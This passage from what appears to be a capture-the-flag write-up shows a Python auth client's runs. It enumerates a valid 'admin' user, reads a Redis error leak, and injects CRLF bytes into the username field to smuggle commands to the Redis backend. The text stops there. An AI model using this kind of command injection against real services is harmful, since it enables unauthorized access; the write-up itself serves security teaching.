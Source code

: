         def close(self):
            self.sock.close()
    if __name__ == "__main__":
        scc = SecureConnect_Client()
        scc.connect()
        scc.login("username", "password")
        scc.get_response()
        scc.close()


We execute the code:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : gOg0gySNyDbKCKD5oT6SLEdG4fEgkNXntk5uQ1m1XtZzIvMT62bcqMgmB6ei5HVI !
    [+] Auth data : AUTH username|7b98c028fc42ee7bc830948b036571f8327279b6929b4f598891ed608edbfbd9
    [~] Sending auth packet...
    [!] Authentification Error : Invalid username.
    [-] Bad password or authentification error... !

### admin

By replacing `username` by `admin` we got a different message allowing us to
think that we got the right user:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : GRlJD0cTH7RQFPQ5TUNQRQZVmLrxejFNsDPYFF0LWZKvBJLvFwAvN0YDPvU9AMGV !
    [+] Auth data : AUTH admin|febb7f8cec097ba5636da95ded1b019030483436385584297bbf64e1bf828acb
    [~] Sending auth packet...
    [+] Welcome Administrator we are verifying your password...
    [-] Bad password or authentification error... !

### Errors

Moreover, when playing with the username value, for instance by putting
`username"` we got the following message:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : uJ2A8UE1WMwYCgWDmOMZSVirPWQoxhWAVeECAwWOVUxXD9q6qqvqGPSpolKr5KX1 !
    [+] Auth data : AUTH username'|a932aed6531ebf37074484e10611499007dadd6c42f69649a242302c09245792
    [~] Sending auth packet...
    [!] Authentification Error : Valid response code but no user data received : -ERR Protocol error: unbalanced quotes in request
    [-] Bad password or authentification error... !

### Redis

The error `unbalanced quotes in request` seems to be from a Redis server, a
NoSQL engine. We can see this precise error in the
[`networking.c`](http://download.redis.io/redis-stable/src/networking.c) file
of the project.

We replace the username with `admin\x0A\x0D` in order to finish the command and
obtain :

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : OFJUOFLbDdR49FHeNMUH4FX7VFIUPxiASDKIaXpZvtIELU3Yo333ICcUmIZFfVWB !
    [+] Auth data : AUTH username |e72fd1858578774bfbee00196992db55f7697833746053a2390a73f4616c60da
    [~] Sending auth packet...
    [+] Welcome -ERR unknown command ':name' we are verifying your password...
    [-] Bad password or authentification error... !
